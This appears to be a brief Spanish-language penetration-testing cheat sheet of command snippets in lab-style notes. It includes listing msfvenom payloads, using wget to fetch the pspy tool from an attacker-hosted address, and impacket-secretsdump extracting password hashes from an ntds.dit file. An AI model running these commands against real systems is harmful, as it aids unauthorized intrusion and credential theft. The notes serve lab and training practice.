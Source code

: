 
## Watch 

Para ver comandos cada segundo

```bash

watch -n 1 ls -la /bin/bash

```

## Telnet

A veces es mejor usar telenet en vez de nc consideralo.

```
telnet 10.10.1.14 110
```

## MSFVENOM

Para ver las payloads disponibles.

```
msfvenom -l payloads | grep java
```

## Multiples interfaces

Usa el comando

```
hostname -I

```
## Wget

Para descargar lo que sea copia y pega para que o estes escribiendo siempre lo mismo

```
wget http://10.10.14.80:8000/pspy
```

## Impacket

Tienen todas las herramientas para trabajar con AD entonces busca las tools primero con impacket ejemplo: impacket-secretsdump...

### secretsdump

Para sacar los hashes del ntds.dit recuerda que se necesita el registro system.bin

```
impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL
```
## Joomla
